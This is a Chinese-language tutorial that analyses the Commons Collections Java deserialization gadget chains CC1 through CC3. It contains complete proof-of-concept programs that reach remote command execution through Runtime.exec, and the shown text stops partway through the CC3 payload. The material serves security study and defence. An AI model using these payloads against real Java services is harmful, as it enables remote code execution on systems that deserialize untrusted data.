[TOC]


# Preface

在 CommonsCollections 生态中，3 的最后一个版本是 3.2.2。再次基础上很多利用链都失效了。下图 JDK 版本只是大版本普遍适用情况，不代表细致的利用版本



ysoserial info

```txt
CommonsCollections1 @frohoff                               commons-collections:3.1
CommonsCollections2 @frohoff                               commons-collections4:4.0
CommonsCollections3 @frohoff                               commons-collections:3.1
CommonsCollections4 @frohoff                               commons-collections4:4.0
CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
```

- CommonsCollections1
  - 命令执行载体：`org.apache.commons.collections.functors.ChainedTransformer`
  - 反序列化载体：`AnnotationInvocationHandler`
  - 见前文
- CommonsCollections2
  - 命令执行载体：`org.apache.xalan.xsltc.trax.TemplatesImpl`
  - 反序列化载体：`PriorityQueue`
  - `PriorityQueue.readObject()`执行排序时，`TransformingComparator.compare()`会调用`InvokerTransformer.transform()`转换元素，进而获取第一个元素`TemplatesImpl`的`newTransformer()`并调用，最终导致命令执行
- CommonsCollections3
  - 命令执行载体：`org.apache.commons.collections.functors.ChainedTransformer`
  - 反序列化载体：`AnnotationInvocationHandler`
  - 除`Transformer`数组元素组成不同外，与CommonsCollections1基本一致
- CommonsCollections4
  - 命令执行载体：`org.apache.commons.collections.functors.ChainedTransformer`
  - 反序列化载体：`PriorityQueue`
  - `PriorityQueue.readObject()`执行排序时，`TransformingComparator.compare()`会调用`ChainedTransformer.transform()`转换元素，进而遍历执行`Transformer`数组中的每个元素，最终导致命令执行
- CommonsCollections5
  - 命令执行载体：`org.apache.commons.collections.functors.ChainedTransformer`
  - 反序列化载体：`BadAttributeValueExpException`
  - `BadAttributeValueExpException.readObject()`当`System.getSecurityManager()`为`null`时，会调用`TiedMapEntry.toString()`，它在`getValue()`时会通过`LazyMap.get()`取值，最终导致命令执行
- CommonsCollections6
  - 命令执行载体：`org.apache.commons.collections.functors.ChainedTransformer`
  - 反序列化载体：`HashSet`
  - `HashSet.readObject()`反序列化各元素后，会调用`HashMap.put()`将结果放进去，而它通过`TiedMapEntry.hashCode()`计算hash时，会调用`getValue()`触发`LazyMap.get()`导致命令执行
- CommonsCollections7
  - 命令执行载体：`org.apache.commons.collections.functors.ChainedTransformer`
  - 反序列化载体：`Hashtable`
  - `Hashtable#readObject`反序列化各元素后，会调用`reconstitutionPut`，后面利用链中在比较hash值的时候用到了hashcode相等的两个字符串 yy 和 zZ。最后` AbstractMap#equals` 触发`LazyMap.get()`导致命令执行

# CommonsCollections1

## Basics

开始之前需要理清以下几个方面

- Transformer
- ConstantTransformer
- InvokerTransformer
- ChainedTransformer
- AnnotationInvocationHandler


根据其源码，结合 java.lang.Runtime 可以构成一个命令执行，需要注意的是 Runtime 为单例模式，而且没有继承 Serializable， 因此调用 getRuntime 之后获得的类实例不能反序列化。命令执行前提是调用构造的 ChainedTransformer 的 transform。由此构造出来的命令执行代码是这样的

**Level-0 payload**

```java
public class CommandDemo {
    public static void main(String[] args) {
        ChainedTransformer demo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"open -a Calculator"})});
        demo.transform(String.class);
    }
}
```

弄清楚上述 payload 只需要解决以下几个问题：

1. 各 Transformer 的作用，以及他们之间的联系
2. 为什么需要一个返回原本传入对象的 ConstantTransformer ，这种方式不是多此一举么？
3. 为什么需要反射调用 getRuntime，而不是直接传入 Runtime.getRuntime ？


CommonsCollections1 网上的 POC 其实也涉及到了两个利用链

- TransformedMap（网上流传的利用链）
- LazyMap （ysoserial 中利用链）

这里引用 @phithon 师傅 Java安全漫谈 的一段话

> 既然ysoserial中没有用到TransformedMap，那么TransformedMap究竟是谁最先提出来的呢？ 据我的考证，最早讲到TransformedMap应该是Code White的这篇Slide：Exploiting Deserialization Vulnerabilities in Java，后来长亭科技的博客文章《Lib之过？Java反序列化漏洞 通用利用分析》对此进行了进一步分析，后来才在国内众多文章中被讲到。

其漏洞利用差别在于执行 `transform` 的不同

相同的是均无法解决 CommonCollections1 这条利用链在高版本Java（8u71以后）中的使用问题

## TransformedMap Gadget chain

利用链是 TransformedMap ，先对我们之前 level-0 的 payload 进行一个升级，同样是最基础的命令执行，但是不直接使用 ChainedTransformer 的 transform 方法触发，而改用 TransformedMap 的方法

首先 TransformedMap 中有这三个类调用了 transform 方法，但都是 protected 方法，因此需要找到间接调用它们的方法



下面两个方法间接调用了  transformKey 和 transformValue 两个方法，且都是 public 方法（checkSetValue 方法后文再提）



**Level-1 payload**

```java
public class CommandDemo {
    public static void main(String[] args) {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("open -a Calculator")})});
        TransformedMap outerMap = (TransformedMap) TransformedMap.decorate(new HashMap<String, String>(), null, chainDemo);
        outerMap.put("test", "test");
    }
}
```

两个关键点如下

首先调用 `decorate` 方法的时候对  `valueTransformer` 进行了附值，并返回了一个 TransformedMap 对象



后续在 `TransformedMap#transformValue` 调用了 `transform` 方法



debug 一下我们会发现，如果我们是这么写的，那么不会触发命令执行

```java
outMap.put("test", null);
```

上述代码虽然能够命令执行，但是不是反序列化利用链需要用到的命令执行的点，因此我们对上述代码进行改进，使其更接近我们反序列化利用链调用的方法，这里需要用到上文我们提到过的 checkSetValue

[**Level-2 payload**](https://wooyun.js.org/drops/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AE%8C%E6%95%B4%E8%BF%87%E7%A8%8B%E5%88%86%E6%9E%90%E4%B8%8E%E8%B0%83%E8%AF%95.html)

```java
public class CommandDemo {
    public static void main(String[] args) {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("open -a Calculator")})});
        Map innerMap = new HashMap();
        innerMap.put(null, null);
        Map outerMap = TransformedMap.decorate(innerMap, null, chainDemo);
        Map.Entry entryDemo = (Map.Entry) outerMap.entrySet().iterator().next();
        entryDemo.setValue(null);
    }
}
```

`outerMap` 经过 `entrySet` -> `iterator` -> `next` 方法， 最终使 `MapEntry`类的 `this.parent` 变量被附值成 TransformedMap类的对象 `outerMap `

在最后调用的时候先触发 `MapEntry` 的  `setValue` 



然后调用其早就构造好的 `valueTransformer` 的 `transform` 方法



对于目前来说，手动触发命令执行显然达不到反序列化利用的标准，由此我们需要从 `readObject` 开始下手。于是找到 AnnotationInvocationHandler 这个类，需要注意的是这个类不能被外部类访问到，所以需要反射去调用它

**Level-3 TransformedMap 利用链 payload**

```java
public class TransformedMapDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        innerMap.put("key", "random");
        Map outerMap = TransformedMap.decorate(innerMap, null, chainDemo);
        Constructor construct = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
              
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(handler);
        oos.close();
        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```



调用栈

```txt
transform:121, ChainedTransformer (org.apache.commons.collections.functors)
checkSetValue:169, TransformedMap (org.apache.commons.collections.map)
setValue:191, AbstractInputCheckedMapDecorator$MapEntry (org.apache.commons.collections.map)
readObject:353, AnnotationInvocationHandler (sun.reflect.annotation)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:57, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:601, Method (java.lang.reflect)
invokeReadObject:1004, ObjectStreamClass (java.io)
readSerialData:1891, ObjectInputStream (java.io)
readOrdinaryObject:1796, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
main:44, TransformedMapDemo (com.p2hm1n.cc.cc1)
```

看一下 `AnnotationInvocationHandler#readObject` 大概就知道了，在调用 `setValue` 后就跟 level-2 的payload 一样了



提炼一下 `AnnotationInvocationHandler` 的特征

- 类的构造方法接收Map对象
- 这个类需要重写 readObject方法，重写的 readObject 方法中会调用到 `AbstractMapEntryDecorator `子类 `MapEntry` 的 `setValue`方法


下面分析一下这个 **payload 的限制：`innerMap.put("value", "random");`**

限制是：在不改动下面的代码的传参情况下，上面代码的第一个参数必须为 value

可能涉及各种版本改动问题，不同的版本的源代码不一样，我 JDK7u21 版本下第一个参数只能传注解类

```java
InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
```

看一下构造方法



在 `AnnotationInvocationHandler#readObject` 中 var2 获取到注解类实例，其中包含很多信息



核心代码如下，为了触发 RCE，需要满足 `var7 != null`，var3 是获取了 var2 信息的 Hashmap，var6是 我们传入的 value 字符串，几经周转在 MapEntry 调用 getKey 得到。 因此 var7 其实是get获取键为 “value” 的key的value值



当 innerMap 的值为其他时，var7为空，不会触发到后面的RCE利用点



最后总结一下限制为：

1. handler 第一个参数必须是**元注解类** （其实好像也就 Retention 跟 Target 能用）
2. innerMap 第一个参数必须是注解类的方法名

## LazyMap Gadget chain

同理，我们先对 level-0 的代码进行升级，使其利用到 LazyMap 的方法去触发 chain 的 transform

**Level-1 payload**

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        Class clz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor construct = clz.getDeclaredConstructor(Map.class, Transformer.class);
        construct.setAccessible(true);
        LazyMap mapDemo = (LazyMap) construct.newInstance(innerMap, chainDemo);
        mapDemo.get("random");
    }
}
```

Lazy不可以直接 new 来实例化，需要通过反射调用。在实例化的时候调用构造方法对 `this.factory` 进行了附值



LazyMap 的 `get` 方法调用了已经附值的 `this.factory`  的 `transform` 方法，我们手动调用了 LazyMap 的 get 方法，因此会命令执行



获取实例化也可以通过 `LazyMap#decorate`



**Level-2 payload**

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, chainDemo);
        mapDemo.get("random");
    }
}
```

由于上面我们是手工调用的 LazyMap 的 `get` 方法，我们需要结合反序列化自动调用的话，跟上面 TransformedMap 一样，需要找一个重写的 `readObject` 里面调用了 `get` 方法的。这里使用到的还是 AnnotationInvocationHandler。

**Level-3 LazyMap 利用链 payload**

```java
public class LazyMapDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        Class clz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor construct = clz.getDeclaredConstructor(Map.class, Transformer.class);
        construct.setAccessible(true);
        LazyMap mapDemo = (LazyMap) construct.newInstance(innerMap, chainDemo);
        Constructor handler_construct = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handler_construct.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_construct.newInstance(Override.class, mapDemo);
        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class}, map_handler);
        Constructor AnnotationInvocationHandler_Construct = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        AnnotationInvocationHandler_Construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Construct.newInstance(Override.class, proxy_map);
              
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(handler);
        oos.close();
        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

三个关键点：`this.memberValues`、`invoke` 和 `this.memberValues.entrySet()`

首先 `this.memberValues` 在第一个`InvocationHandler` 对象中被设置成了构造好的 LazyMap，只需要调用其 get 方法即可 RCE

其次动态代理中，调用动态的代理对象任何方法，均会触发之前 `InvocationHandler` 对象的 `invoke` 方法



最后  `AnnotationInvocationHandler#invoke` 中调用了 `get`



利用链

```txt
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()
```


# CommonsCollections2

## Basics

javassist 动态编程主要是在内存中动态的生成 Java 代码

Demo 代码直接引用 @p1g3 师傅的，从创建类到创建构造方法都有

```java
public class JavassistDemo {
    public static void createPseson() throws Exception {
        ClassPool pool = ClassPool.getDefault();

        // 1. 创建一个空类
        CtClass cc = pool.makeClass("Person");

        // 2. 新增一个字段 private String name;
        // 字段名为name
        CtField param = new CtField(pool.get("java.lang.String"), "name", cc);
        // 访问级别是 private
        param.setModifiers(Modifier.PRIVATE);
        // 初始值是 "xiaoming"
        cc.addField(param, CtField.Initializer.constant("xiaoming"));

        // 3. 生成 getter、setter 方法
        cc.addMethod(CtNewMethod.setter("setName", param));
        cc.addMethod(CtNewMethod.getter("getName", param));

        // 4. 添加无参的构造函数
        CtConstructor cons = new CtConstructor(new CtClass[]{}, cc);
        cons.setBody("{name = \"xiaohong\";}");
        cc.addConstructor(cons);

        // 5. 添加有参的构造函数
        cons = new CtConstructor(new CtClass[]{pool.get("java.lang.String")}, cc);
        // $0=this / $1,$2,$3... 代表方法参数
        cons.setBody("{$0.name = $1;}");
        cc.addConstructor(cons);

        // 6. 创建一个名为printName方法，无参数，无返回值，输出name值
        CtMethod ctMethod = new CtMethod(CtClass.voidType, "printName", new CtClass[]{}, cc);
        ctMethod.setModifiers(Modifier.PUBLIC);
        ctMethod.setBody("{System.out.println(name);}");
        cc.addMethod(ctMethod);

        //这里会将这个创建的类对象编译为.class文件
        cc.writeFile("./");
    }

    public static void main(String[] args) {
        try {
            createPseson();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

反编译一下 Person.class 可以看到最终构造出来的代码是这样的



javassist 带来的攻击面在于 Java 进行实例化对象的时候会调用 static 代码块

创建一个 class

```java
public class JDemo {
    public static void main(String[] args) throws IOException, CannotCompileException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.makeClass("TestDemo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.writeFile();
    }
}
```



接下来利用 TemplatesImpl 来更进一步

`TemplatesImpl#newTransformer` 调用了 `getTransletInstance`



先看第一部分，如果  `_name` 不为null的值，`_class`设置为 null，这样会调用 `defineTransletClases`



跟进  `defineTransletClases`，注意几个问题

`_class[i] = loader.defineClass(_bytecodes[i]);` 对 byte 进行了还原

需要设置父类为 `AbstractTranslet` ，默认状态下`_transletIndex` 的值为 -1，如果进入这个 if 比较后，会给` _transletIndex` 附值至少为 0，不然会抛出异常。这里我们也不能通过反射的方式来设置`_transletIndex`的值，因为还是会进入到`_auxClasses` 方法中，此方法会报出错误，无法正常的序列化。



回到 `TemplatesImpl#getTransletInstance` 的第二部分，这里进行了实例化，也就是这里会调用我们 static 代码块的代码

构造调用 `TemplatesImpl#newTransformer` 结合 javassist 可以实现一个 RCE 的 demo

```java
public class JDemo {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("TestDemo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "TestDemo");
        setFieldValue(templates, "_class", null);
        // 因为代码中存在 _tfactory.getExternalExtensionsMap() 所以需要 _tfactory 进行赋值 不能为null，这里与 JDK 版本有关
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        templates.newTransformer();

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

## Gadget chain

沿用之前 CC1 的思路，目前的核心目的是寻找调用 ChainedTransformer 的 `transform` 的类

看一下 `TransformingComparator#compare` ,在上面构造函数实例化对象的时候给 `this.transformer` 附值为传入的 transformer，这里直接调用 transform 方法，符合我们的构造条件



由此我们后续目的就是寻找调用了这个方法的。利用链比较复杂，我们切换到正向的思路

`PriorityQueue#readObject` ，最后一行调用了 `heapify` 方法



`PriorityQueue#heapify` 里调用了 `siftDown` ，但是这里有个条件就是要满足 `int i = (size >>> 1) - 1; i >= 0`。这里 size 如果为 1 的话，也就是我们只给 PriorityQueue add 一个值的时候， `(size >>> 1) - 1` 算出来为 -1，如果想让其满足 for 循环表达式，size 至少为 2



看一下 `PriorityQueue#siftDown`



随后调用到关键的方法 `PriorityQueue#siftDownUsingComparator` 



在漫长的调用栈中，最重要的参数就是 comparator。可控我们即可 RCE

优化 payload 的过程中，网上很多文章都会用反射去附值，其实 PriorityQueue 初始化的时候也可以直接附值，但是会触发多次 payload。

**fake CC2 payload**

```java
public class CC2 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException,
            InstantiationException, NoSuchFieldException, IOException {
        Transformer[] realPoc  = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        TransformingComparator comparator = new TransformingComparator(fakeChain);
        PriorityQueue queue = new PriorityQueue(1);
        queue.add(1);
        queue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, comparator);


        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(queue);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

CC2 其实核心命令执行的方式不是靠的 ChainedTransformer 与 InvokerTransformer 等结合的方式。它变为了使用 TemplatesImpl 这个类来调用，也就是前文 basics 的内容

前文我们利用 `TemplatesImpl#newTransformer` 结合 javassist 实现了一个 RCE demo

接下来我们的任务是如何调用 `TemplatesImpl#newTransformer` 以及如何与readObject 结合

回顾 InvokerTransformer，调用其 transform 方法，如果可控  transform 方法中参数，以及 `this.iMethodName` 即可调用任意类的任意方法



回顾之前 CC2 gadget chain 中执行 transform 的点，只需要 obj1 可控，则满足条件



**TemplatesImpl 利用链 payload**

```java
public class TemplatesImplDemo {
    public static void main(String[] args) throws Exception {
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
        TransformingComparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(2);
        // javassist
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Demo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);
        Object[] queue_array = new Object[]{templates, 1};

        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue, queue_array);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue, 2);


        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue, comparator);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(queue);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

利用链

```java
	Gadget chain:
      ObjectInputStream.readObject()
        PriorityQueue.readObject()
          PriorityQueue.heapify()
              PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                  TransformingComparator.compare()
                      InvokerTransformer.transform()
                        Method.invoke()
                            TemplatesImpl.newTransformer()
                                 TemplatesImpl.getTransletInstance()
                                 TemplatesImpl.defineTransletClasses
                                 newInstance()
                                  	Runtime.exec()
```


> CommonsCollections2 不能在 3.1-3.2.1版本利用成功
>
> **根本原因在于CommonsCollections2的payload中使用的TransformingComparator在3.1-3.2.1版本中还没有实现Serializable接口，无法被反序列化**

# CommonsCollections3

## Basics

CC3 相比于 CC1 也只是更改了命令执行的方式

先看一下 `InstantiateTransformer#transform`，就是通过反射调用构造函数来实例化对象



CC2 里面我们改变了命令执行的方式为 `TemplatesImpl#newTransformer` 来调用。CC2里触发 `TemplatesImpl#newTransformer`  是靠的 `InvoerTransformer#transform`，且 `transform` 参数可控

CC3 用到了 `TrAXFilter` 这个类，其构造方法会调用 `templates.newTransformer()`，且 `templates` 可控



回顾我们上面讲的 `InstantiateTransformer#transform`，那么可以实现命令执行

```java
public class Demo {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("TestDemo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "TestDemo");
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        });
        chain.transform("random");

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```


## Gadget chain

上述的 RCE demo 结合 CC1 的 LazyMap 利用链可以构造出 CC3

**CC3 payload**

```java
public class CC3 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("TestDemo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "TestDemo");
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer[] realPoc = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        Map innerMap = new HashMap();
        Class clz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor construct = clz.getDeclaredConstructor(Map.class, Transformer.class);
        construct.setAccessible(true);
        LazyMap mapDemo = (LazyMap) construct.newInstance(innerMap, fakeChain);
        Constructor handler_construct = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handler_construct.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_construct.newInstance(Override.class, mapDemo);
